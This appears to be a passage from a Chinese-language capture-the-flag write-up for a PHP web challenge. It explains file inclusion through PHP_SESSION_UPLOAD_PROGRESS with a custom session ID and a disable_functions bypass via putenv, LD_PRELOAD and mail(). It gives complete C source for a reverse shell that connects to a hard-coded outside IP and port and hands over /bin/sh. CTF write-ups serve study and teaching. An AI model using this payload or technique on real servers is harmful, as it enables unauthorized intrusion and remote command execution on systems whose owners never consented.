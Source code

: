 ```php
    for($i = 0; $i < strlen($alphanum); $i++){
        for($j = 0; $j < strlen($var); $j++){
            if($var[$j] == $alphanum[$i]){
                $cnt += 1;
                if($cnt > 4) return True;
            }
        }
    }
    return False;
}
```

当参数 mode 为 chance 的时候会进行经过严格过滤的指令执行，而 mode 为 bonus 的时候则会进行 include。给出的 PHPINFO 文件中 disable_function 几乎禁用了所有的函数，加上过滤极为严格，因此直接指令执行是不可能的。可以注意到 `session.upload_progress.cleanup`  的值为 Off，也就是说当 POST 文件上传后 session 不会被清理，`session.use_strict_mode` 的值为 0。这意味着自定义一个会话 ID，进而可以利用 PHP_SESSION_UPLOAD_PROGRESS 进行文件包含。上传到 `/tmp` 的文件会在进程结束后被删除，因此需要写出 `for(;;){}` 来阻塞执行进程。

##### 反弹 shell 的构造

可以发现在 PHPINFO 文件中，`putenv` 和 `mail` 两个函数都还能使用，因此尝试写入 LD_PRELOAD，使用 `mail` 函数来触发一个反弹 shell。构造出如下反弹 shell 的代码。

```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <unistd.h>
#include <errno.h>

void payload() {
    struct sockaddr_in serveraddr;
        int server_sockfd;
        int client_len;
        char buf[80],rbuf[80], *cmdBuf[2]={"/bin/sh",(char *)0};

        server_sockfd = socket(AF_INET, SOCK_STREAM, 6);
        serveraddr.sin_family = AF_INET;
        serveraddr.sin_addr.s_addr = inet_addr("8.136.8.210"); 
        serveraddr.sin_port = htons(atoi("3255"));
        client_len = sizeof(serveraddr);

        connect(server_sockfd, (struct sockaddr*)&serveraddr, client_len);

        dup2(server_sockfd, 0);
        dup2(server_sockfd, 1);
        dup2(server_sockfd, 2);

        execve("/bin/sh",cmdBuf,0);
}   

uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```
